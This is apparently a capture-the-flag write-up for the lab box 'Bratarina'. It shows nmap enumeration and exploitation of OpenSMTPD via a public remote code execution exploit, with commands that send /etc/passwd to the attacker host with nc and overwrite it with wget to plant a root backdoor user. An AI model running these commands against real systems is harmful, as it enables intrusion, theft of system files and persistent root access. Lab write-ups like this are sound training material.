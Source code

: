 ```yaml
---
layout: post
title: Proving Grounds - Bratarina
date: 2020-10-17 12:16:22 +0100
description: Bratarina is an easy Linux box featuring an outdated installation of an SMTP server.
img: os.jpeg
fig-caption: Bratarina
categories: ProvingGrounds
tags: [Easy, Linux, Practice, CVE]
---
```

## Overview
Bratarina is an easy Linux box featuring an outdated installation of an SMTP server.

## Enumeration
The initial scan reveals a fair number of open ports
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Bratarina]
└─$ sudo nmap -T4 -p- 192.168.200.71 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 22:30 BST
Nmap scan report for 192.168.200.71
Host is up (0.091s latency).
Not shown: 65530 filtered ports
PORT    STATE  SERVICE
22/tcp  open   ssh
25/tcp  open   smtp
53/tcp  closed domain
80/tcp  open   http
445/tcp open   microsoft-ds
```
After some initial enumeration it becomes clear that the web server is a dead end. The website appeared broken, and fuzzing and a nikto scan revealed nothing of interest. The samba share contained a backup of the passwd file, but after checking the version, did not appear to be vulnerable. The final remaining port appeared to be the smtp server running on port 25. Service enumeration failed to identify the version number, but did show the name of the server, which after querying searchsploit did reveal that at least a particular version of it was vulnerable.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Bratarina]
└─$ nmap -p25 --script smtp-commands 192.168.200.71
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 22:38 BST
Nmap scan report for 192.168.200.71
Host is up (0.091s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.200], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
```
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Bratarina]
└─$ searchsploit opensmtpd
--------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                         |  Path
--------------------------------------------------------------------------------------- ---------------------------------
OpenSMTPD - MAIL FROM Remote Code Execution (Metasploit)                               | linux/remote/48038.rb
OpenSMTPD - OOB Read Local Privilege Escalation (Metasploit)                           | linux/local/48185.rb
OpenSMTPD 6.4.0 < 6.6.1 - Local Privilege Escalation + Remote Code Execution           | openbsd/remote/48051.pl
OpenSMTPD 6.6.1 - Remote Code Execution                                                | linux/remote/47984.py
OpenSMTPD 6.6.3 - Arbitrary File Read                                                  | linux/remote/48139.c
OpenSMTPD < 6.6.3p1 - Local Privilege Escalation + Remote Code Execution               | openbsd/remote/48140.c
--------------------------------------------------------------------------------------- ---------------------------------

```
## Foothold
Browsing through the results from searchsploit, the python script appears promising as it offers remote code execution, does not require metasploit and the target server likely does not run on OpenBSD. Testing the script to see if we can receive output proves succesful
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Bratarina]
└─$ ./47984.py 192.168.200.71 25 'nc -nv 192.168.49.200 80 < /etc/passwd'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
Although it proved difficult to receive a reverse shell, although there would be many ways to handle this, I opted to create a backdoor user on the box.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Bratarina]
└─$ mkpasswd --method=MD5 --stdin    
Password: pass
$1$Ls0oeXvv$ZwE8B7S1figJUIq2y/cIQ1
```
I added this as an entry to the passwd file and used wget to place it into /etc/passwd
```
test:$1$Ls0oeXvv$ZwE8B7S1figJUIq2y/cIQ1:0:0:Test,,,:/root
```
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Bratarina]
└─$ ./47984.py 192.168.200.71 25 'wget -O /etc/passwd 192.168.49.200/passwd.bak'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
Having done that, we can now ssh onto the box unimpeded
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Bratarina]
└─$ ssh test@192.168.200.71
test@192.168.200.71's password:
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
## Privilege Escalation

Privilege escalation is not required as we got a root shell directly from the foothold